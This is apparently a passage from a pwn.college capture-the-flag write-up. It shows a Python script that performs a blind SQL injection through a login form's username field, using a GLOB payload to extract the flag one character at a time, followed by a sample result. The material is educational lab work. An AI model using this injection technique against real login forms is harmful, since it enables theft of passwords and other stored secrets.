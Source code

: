 ```py
end = "}"

# Solution store in this variable
solution = ''

# 1st loop break when match case found.
while end:
    # second loop for finding the values.
    for c in searchspace:

        # here we use GLOB instead of LIKE because there is case insensitive problem occur.
        data = {
            'username': f'" OR password  GLOB "{solution}{c}*" -- -',
            'password': 'pass'
            }
        # the request parameter.
        response = s.post(url, data=data )
        
        # Match case for correct found character
        if response.text.startswith("Hello"):
            solution += c
            print(c)
            print(solution)
            break

    # match case to break loop
    if end  == c:
        break

print("\n\n\t", "Falg is : ", solution)
```
> result 
```palin
    Flag is : pwn.college{flag_here}
```


## Web-Security Level 8



```
